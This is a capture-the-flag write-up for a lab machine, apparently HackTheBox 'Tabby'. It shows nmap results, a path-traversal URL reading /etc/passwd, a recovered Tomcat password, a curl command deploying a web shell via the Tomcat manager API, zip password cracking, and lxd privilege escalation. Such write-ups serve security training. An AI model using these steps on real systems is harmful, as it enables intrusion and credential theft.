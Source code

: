 # tabby



## nmap

PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
|
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
1113/tcp filtered ltp-deepspace
1244/tcp filtered isbconference1
2121/tcp filtered ccproxy-ftp
5811/tcp filtered unknown
6969/tcp filtered acmsoda
8080/tcp open     http           Apache Tomcat
|http-title: Apache Tomcat





## web

- There are 2 ports hosting services
  - web server at port 80
  - apache tomcat server at port 8080

- we can use local file inclusion at port 80 with address "http://megahosting.htb/news.php?file=../../../../etc/passwd" 
- we can get credentials from tomcat-users.xml

![image-20201108200103446](tabby.assets/image-20201108200103446.png)



#### credentials

```
tomcat	:	$3cureP4s5w0rd123!
```





## tomcat

- we have to deploy a war file with shell in it
- but as we cannot tomcat manager access from remote machine due to restriction we have to use tomcat api

![image-20201108203102601](tabby.assets/image-20201108203102601.png)

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' -T "cmdjsp.war" "http://10.10.10.194:8080/manager/text/deploy?path=/myapp"
```



- now we got some type of shell we can use it to get reverse shell

![image-20201108203332021](tabby.assets/image-20201108203332021.png)





## enumeration

- found a encrypted zip file in the files directory

![image-20201108204714224](tabby.assets/image-20201108204714224.png)



- using john to decrypt it

![image-20201108204821390](tabby.assets/image-20201108204821390.png)



##### credential

```
zip		admin@it
ash:admin@it
```



![image-20201108205119284](tabby.assets/image-20201108205119284.png)



## privesc

- we got a shell as user ash
- now for privilege escalation we will run linpeas

![image-20201108205721903](tabby.assets/image-20201108205721903.png)



- we are in lxd group as user ash we can use it to privesc

```
https://www.hackingarticles.in/lxd-privilege-escalation/
```

